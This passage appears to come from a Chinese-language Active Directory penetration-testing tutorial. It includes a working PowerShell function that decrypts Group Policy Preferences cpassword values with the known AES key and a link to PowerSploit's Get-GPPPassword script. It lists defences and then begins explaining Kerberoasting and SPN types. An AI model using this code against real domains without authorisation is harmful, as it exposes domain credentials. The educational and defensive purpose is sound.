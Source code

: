         try {
            #Append appropriate padding based on string length  
            $Mod = ($Cpassword.length % 4)
     
            switch ($Mod) {
            '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
            '2' {$Cpassword += ('=' * (4 - $Mod))}
            '3' {$Cpassword += ('=' * (4 - $Mod))}
            }
     
            $Base64Decoded = [Convert]::FromBase64String($Cpassword)
     
            #Create a new AES .NET Crypto Object
            $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
            [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                                 0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)
     
            #Set IV to all nulls to prevent dynamic generation of IV value
            $AesIV = New-Object Byte[]($AesObject.IV.Length) 
            $AesObject.IV = $AesIV
            $AesObject.Key = $AesKey
            $DecryptorObject = $AesObject.CreateDecryptor() 
            [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)
     
            return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
        }
     
        catch {Write-Error $Error[0]}
    }
    Get-DecryptedCpassword "修改密钥处"
    ```

6. 也可以使用 PowerSploit 工具包中的 Get-GPPPassword.ps1：

    > https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

7. 防御措施：

    1. 打补丁：KB2962486
    2. 删除 SYSVOL 目录下的 groups.xml
    3. 设置共享文件 SYSVOL 的访问权限

### 6.3 Kerberoasting

1. 在域中访问 SPN 对应的实例的过程中，从 TGS 拿到的 Ticket 是用实例的 NTLM Hash 作为密钥进行对称加密的，如果这个加密的方式是 RC4_HMAC_MD5，就可以将这个 Ticket 导出对其进行离线破解，从而获取到域用户的密码了。
2. SPN 在 [5.1 非约束委派攻击](# 5.1 非约束委派攻击)有过介绍，这里再进行补充。SPN 分为两种类型：
    1. 注册在活动目录 AD 的机器账号（Computers）下的。
        即当一个服务的权限为 Local System 或 Network Service 时，则 SPN 就注册到 Computers 下。
    2. 一种是注册在 AD 的域用户下（Users），当一个服务的权限为一个域用户，则 SPN 注册在 Users 下。
3. 在域中，默认普通机器账号有权注册 SPN，但是域账号不行。不过域用户和机器用户都有查询 SPN 的权限。**一般是破解域用户的 SPN**，因为机器账号破解出来不能用于登录。
    ![image-20240722123850828](Kerberos/image-20240722123850828.png)
